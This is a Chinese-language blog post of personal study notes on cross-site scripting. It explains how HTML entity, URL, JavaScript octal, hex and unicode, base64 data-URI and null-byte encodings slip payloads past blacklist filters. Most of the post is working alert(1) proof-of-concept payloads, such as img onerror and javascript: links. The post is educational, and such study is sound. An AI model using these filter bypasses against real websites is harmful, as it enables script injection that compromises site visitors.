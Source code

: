 ```yaml
---
title: XSS学习笔记1
time: 2016.02.01 17:47:00
layout: post
catalog: true
tags:
- 信息安全
- Web
- XSS
excerpt: XSS学习的一些总结，包括实体编码，js编码，base64编码，和一些绕过黑名单检测的方法，最后还有一个fuzzing的福利^_^
    


---
```


### Entity编码
- HTML解析器在建立文档树的时候会针对节点内的Entity编码后传输,html实体编码本身存在的意义是防止与HTML本身语义标记的冲突。
  以下两个表示相同：

  	<img src="http://www.example.com"> 
  	<img src="ht&#x74;p&#x3a;//www.example.com">
  下面两个例子代码不会执行，因为，编码的是标签本身的结构而非节点内的内容：

  	<img src&#x3d;"http://www.example.com"> 
  	<img s&#x72;c="http://www.example.com">

- HTML实体编码有两种，10进制与16进制


  {% highlight HTML %}
  如把尖括号编码[ < ]  -----> html十进制: &#60;  html十六进制:&#x3c;
  {% endhighlight %} 

- 比如有一个输出点：

  	<img src="[代码]"> 
  且过滤了script < > / \ http: 以及各种危险字符。

  那么，我们可以在这里 闭合双引号 写事件: onerror=[html language="实体编码"][/html][/html]。
  构造代码：
  ​	
  	<img src="x" onerror="&#97;&#108;&#101;&#114;&#116;&#40;&#49;&#41;">
  原代码：
  ​	
  	<img src="x" onerror="alert(1)">
  这里我用的是html十进制编码，也可以使用十六进制的html实体编码！

  之所以不用jsunicode 以及 js八进制跟js十六进制，是因为浏览器一般是不会在html标签里解析js中的那些编码的！所以我们在onerror=后面放js中的编码是不会解析的，也可以说浏览器会把它当作一个txt文件解析，解析结果仍然还是原来的数据。

- 有时，有些过滤器会过滤& #符号，此时我们就不能只用HTML实体编码了。但，如果此时的输出点是一个可以执行js的标签中，且输入点是一个url地址，那么我们可以这样构造：

  	',alert(1)' ＝＝＝》
  	html16进制编码 &#x27,alert(1)+&#x27
  	＝》》url编码%26%23x27,alert(1)%2b%26%23x27
  说明：url编码用于绕过&＃的过滤

---

###黑名单防御XSS的一些问题
一般程序做XSS防御的时候都会考虑上文到HTML编码问题（过滤&＃），也会拦截一些特殊的字符'"(){}<>:/;，但大多数过滤器会忽略下面的问题：

1. 忽略HTML5新增实体标签
   {% highlight html %}
   &colon; => [冒号]
   &NewLine; => [换行]
   case: <a 	 
   href="javasc&NewLine;ript&colon;alert(1)">click</a>
   {% endhighlight %}

2. Hex编码常规变异(增添多个0)

   	对于<可编码为&#x00000003c;
3. Hex编码非常规变异（url＋多个0）
   ​	
   	对于<可编码为%26%23x00000000003c;
4. html编码去分号（html16进制编码的分号是可以去掉的）

   	对于<可编码为&#x3c
   ​	

---

###Javascript编码
js能识别的编码有：Jsunicode js8进制 js16进制

JS的注入点一般分为两种情况：

1. 输入的值存入某个变量，然后经过一系列变换最后出现在某个能把字符串当做JS代码来执行的函数里。该函数一般为：eval（），setTimeout（），setInterval（）...
2. 还有一种情况就是在一个搜索框内

   比如：

   	var search = "可控点";
   	document.getElementById().innerHTML=search;

对于上述情况，大多数程序都会过滤<> ' " & %等特殊字符

此时，我们就要尝试用js8进制和10进制进行绕过。

对于原代码为：

	<img src=x onerror=alert('xss')>

js八进制编码：
​		
		\74\151\155\147\40\163\162\143\75\170\40\157\156\145\162\162\157\162\75\141\154\145\162\164\50\47\170\163\163\47\51\76
js16进制编码：

	\x3c\x69\x6d\x67\x20\x73\x72\x63\x3d\x78\x20\x6f\x6e\x65\x72\x72\x6f\x72\x3d\x61\x6c\x65\x72\x74\x28\x78\x73\x73\x29\x3e

JSunicode编码： 

	\u003c\u0069\u006d\u0067\u0020\u0073\u0072\u0063\u003d\u0078\u0020\u006f\u006e\u0065\u0072\u0072\u006f\u0072\u003d\u0061\u006c\u0065\u0072\u0074\u0028\u0027\u0078\u0073\u0073\u0027\u0029\u003e

测试以后，都能跳出这个界面：

![image](http://momomoxiaoxi.com/img/post/XSS/2.png)

注：在XSS中，字符数的长短也是一个很重要的问题！越短越好！
在asp的站中插XSS代码的时候，（存储型XSS），经常会因为插入的代码太长，导致数据库字段的长度不够，最终存不进去，报错的情况。所以，XSS的代码越短越好。

---

### base64编码

base64一般用于下列情况
​	
	<a href="可控点">
	<iframe src="可控点">

如果这种情况下，程序过滤了<> ' " javascript的话，XSS可尝试利用base64编码
​	
	<a href="data:text/html;base64, PGltZyBzcmM9eCBvbmVycm9yPWFsZXJ0KDEpPg==">test</a>

用chrome测试：
![image](http://momomoxiaoxi.com/img/post/XSS/3.png)

![image](http://momomoxiaoxi.com/img/post/XSS/4.png)

上图，当点击test是，浏览器就会以data协议对text/html进行解析，编码为base64，最终解析为
​	
	<img src=x onerror=alert(1)>
然后成功弹窗。

---

### 空字符绕过
IE浏览器会自动忽略空字符，并解析剩下的代码，可以通过插入空字符绕过大多数采用正则匹配黑名单字符串的过滤器。

比如：
{% highlight php %}
<?php 
echo '<im'.chr(0).'g sr'.chr(0).'c=x onerror=ale'.chr(0).'rt(1)>';
?>
{% endhighlight %}


### 	Fuzzing
![image](http://momomoxiaoxi.com/img/post/XSS/1.png)

### 参考
1. http://taligarsiel.com/Projects/howbrowserswork1.htm
2. http://drops.wooyun.org/tips/147
